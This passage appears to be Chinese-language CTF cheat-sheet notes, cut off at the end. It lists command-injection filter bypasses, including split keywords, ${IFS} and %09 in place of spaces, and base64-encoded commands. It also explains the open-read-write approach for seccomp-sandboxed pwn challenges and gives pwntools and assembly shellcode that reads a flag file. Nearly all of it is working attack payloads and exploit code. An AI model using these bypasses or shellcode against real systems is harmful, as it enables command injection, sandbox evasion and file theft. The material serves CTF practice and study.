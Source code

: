 ```shell
c/at fl/ag.txt
```

#### 空格代替

```shell
<
${IFS}
$IFS$9
%09
```

#### 编码绕过

```python
`echo 'Y2F0Cg==' | base64 -d`  flag.txt
```

#### ORW：

 CTF中这类PWN题目通常通过禁用execve系统调用添加沙箱，不能直接执行命令getshell ，这个时候就需要用open，read，write这样的函数打开flag

可以通过 seccomp-tools dump ./pwn 来查看文件的沙箱保护。

```python
#orw的例子：
mmap = 0x123000
jmp_rsp = 0x400a01
orw_shellcode  = shellcraft.open("/ctfshow_flag")
orw_shellcode += shellcraft.read(3,mmap,100)
orw_shellcode += shellcraft.write(1,mmap,100)
shellcode = asm(orw_shellcode)	#编写shellcode

payload  = asm(shellcraft.read(0,mmap,0x100))+asm("mov rax,0x123000; jmp rax")
payload  = payload.ljust(0x28,'a')
payload += p64(jmp_rsp)+asm("sub rsp,0x30; jmp rsp")#编写跳转指令

io.sendline(payload)
io.sendline(shellcode)


#用汇编编写shellcode执行orw
shellcode = 
'''
//调用open()
push 0
//绕过strlen()检查
mov r15, 0x67616c66
push r15
mov rdi, rsp
mov rsi, 0
mov rax, 2
syscall
//调用read()
mov r14, 3
mov rdi, r14
mov rsi, rsp
mov rdx, 0xff
mov rax, 0
syscall
//调用write()
mov rdi,1
mov rsi, rsp
mov rdx, 0xff
mov rax, 1
syscall
```